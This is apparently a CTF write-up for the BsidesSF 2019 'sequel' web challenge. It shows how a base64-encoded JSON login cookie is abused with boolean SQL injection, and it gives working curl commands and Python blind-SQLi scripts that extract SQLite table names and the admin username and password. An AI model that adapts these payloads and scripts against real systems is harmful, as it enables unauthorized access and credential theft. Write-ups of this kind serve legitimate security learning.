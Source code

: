 ```yaml
---
layout:     post
title:      'BsidesSF CTF 2019 - sequel'
date:       2019-03-07 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'BsidesSF 2019'
---
```


BsidesSF was a great CTF, but as I could not finish many tasks withing the duration of the competition, I decided to come back to the ones with which I struggled the most. Here's my write up for ***sequel***, which is cool ***web*** challenge rated ***200*** points. 

```text
Location - https://sequel-9cba4c8e.challenges.bsidessf.net/
```

Firstly, we are given a link to the a service with a login form right at the index page. During the initial phase of my attack, I wanted to find some vulnerability in the form itself, but [@yodak5](https://twitter.com/yodak5) found that you can easily log in with a password combination of `guest:guest`. 

![Login Page](/img/bsidessf/sequel-login.png){:class="img-responsive center-block"}

After logging in, we can see a group of ratings for some hackers movies. One interesting thing is that line `Maybe the admin likes it too?`, which somehow gives us a hint that we should look for an admin user. 

![Movies Database](/img/bsidessf/sequel-database.png){:class="img-responsive center-block"}

Another interesting thing is a cookie that we're assigned after logging in.

```text
1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9
```

Decoding it from `base64` gives us `JSON` data of our username and password. 

```text
[w3ndige@main sequel]$ echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9" | base64 -d
{"username":"guest","password":"guest"}
```

And that's when I've hit the wall and could not get further into the challenge during the CTF. But coming back to it, with clear brain, I've decided to check some common vulnerabilites and one thing I've noticed was `Server Error` while checking for ***SQL Injection***. I've immedietaly started tinkering with it.  

```
[w3ndige@main sequel]$ echo '{"username":"unknown\" OR \"1\"=\"2","password":"guest"}' | base64
eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjIiLCJwYXNzd29yZCI6Imd1ZXN0In0K
[w3ndige@main sequel]$ curl --cookie "1337_AUTH=eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjIiLCJwYXNzd29yZCI6Imd1ZXN0In0K" https://sequel-9cba4c8e.challenges.bsidessf.net/sequels
Invalid user.
```

In this example, our output is correct and we get `Invalid user` message. But once we change `2` to `1`, we are able to bypass the check. 

```html
[w3ndige@main sequel]$ echo '{"username":"unknown\" OR \"1\"=\"1","password":"guest"}' | base64
eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjEiLCJwYXNzd29yZCI6Imd1ZXN0In0K
[w3ndige@main sequel]$ curl --cookie "1337_AUTH=eyJ1c2VybmFtZSI6InVua25vd25cIiBPUiBcIjFcIj1cIjEiLCJwYXNzd29yZCI6Imd1ZXN0In0K" https://sequel-9cba4c8e.challenges.bsidessf.net/sequels

<!doctype html>
<html>
<body class='text-center'>

<h2>Sequel Movie Database</h2>
<div class="sequels-container">
  <table class="sequels table">
    <thead>
      <tr>
        <th>Movie</th>
        <th>Rating</th>
        <th>Private Note</th>
      </tr>
    </thead>
    <tbody>
        <tr>
          <td class='name'>Hackers</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>War Games</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>Swordfish</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>Sneakers</td>
          <td class='star-rating'><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
        <tr>
          <td class='name'>The Net</td>
          <td class='star-rating'><i class='em em-star'></i></td>
          <td class='note'>No note for unknown&#34; OR &#34;1&#34;=&#34;1</td>
        </tr>
      
    </tbody>
  </table>
</div>

  </body>
</html>
```

You can see that we're logged in and the values of notes changed, now we can't see any note for the films. After a little bit of thinking I've came up with an idea to use blind sql injection to try and crawl the database as we get different responses - `Invalid login` if we get a false and otherwise - good page. 

But firstly, we have to find out what database engine it uses inside, whether it's ***MySQL***, ***SQLLite*** or something completely different. My solution was to just slighlty modify two versions of exploits, each made for each of those two engines and just hope some will find something. And luckily for me, it was ***SQLLite***. 

Let's start with the succesful payload. 

{% raw %}
```json
{{"username":"\" OR EXISTS(SELECT name FROM sqlite_master WHERE name LIKE \"a%\" limit 1) OR \"","password":"guest"}}
```
{% endraw %}

Here we use `EXISTS` function to see if we get any result from the subquery that will select every name from the `sqlite_master`. In addition it checks if the name starts with a provided letter, in this example, `a`.

As we don't want to do this manually, let's write a simple Python script.

{% raw %}
```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        payload = r'{{"username":"\" OR EXISTS(SELECT name FROM sqlite_master WHERE name LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('https://sequel-9cba4c8e.challenges.bsidessf.net/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```
{% endraw %}

During the first run, we get a `notes` table, but we can still look for others by just ignoring `n` letter. Add this snippet just before the `payload` - `if letter == 'n': continue`. 

```text
[w3ndige@main sequel]$ python exploit.py 
notes%
```

With this methodology, I've found `reviews` table. 

```text
[w3ndige@main sequel]$ python exploit.py 
reviews%
```

At this point I wanted to extract information from this table but could not find any column name that would succesfuly execute my query. Luckily, I've found another table worth noticing.

```text
[w3ndige@main sequel]$ python exploit.py 
uSeRiNfo%
```
Letters are in mixed cases as I've ignored the ones that found the tables previously. Luckily our `LIKE` statement isn't case sensitive so we can replace the letters with the lower case. 

If we have `userinfo` table, we can now try to extract the usernames and passwords. We have to remember that `guest` is already in the database, so that's a letter to ignore. 

{% raw %}
```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        if letter == 'g': continue

        payload = r'{{"username":"\" OR EXISTS(SELECT username FROM userinfo WHERE username LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('https://sequel-9cba4c8e.challenges.bsidessf.net/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```
{% endraw %}

With that script we can get username, and password. Just change the username to password.

```
[w3ndige@main sequel]$ python exploit.py 
sequeladmin%%
[w3ndige@main sequel]$ python exploit.py 
f5ec3af19f0d3679e7d5a148f4ac323d%%
```

Now we can log in with this credentials and flag is right there.

![Flag](/img/bsidessf/sequel-flag.png){:class="img-responsive center-block"}
